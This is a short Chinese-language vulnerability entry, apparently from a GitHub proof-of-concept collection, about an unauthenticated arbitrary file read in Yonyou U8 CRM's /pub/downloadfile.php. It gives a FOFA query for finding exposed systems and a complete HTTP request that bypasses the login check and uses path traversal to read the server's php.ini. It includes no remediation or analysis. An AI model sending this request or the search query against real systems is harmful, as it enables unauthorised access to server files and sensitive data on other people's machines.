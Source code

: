 ## 用友U8-CRM客户关系管理系统downloadfile.php存在任意文件读取漏洞

用友U8 CRM客户关系管理系统/pub/downloadfile.php存在任意文件读取漏洞，未经身份验证的远程攻击者通过漏洞可以获取到服务器敏感信息。

## fofa
```
app="用友U8CRM"
```

## poc
```
GET /pub/downloadfile.php?DontCheckLogin=1&url=/datacache/../../../apache/php.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
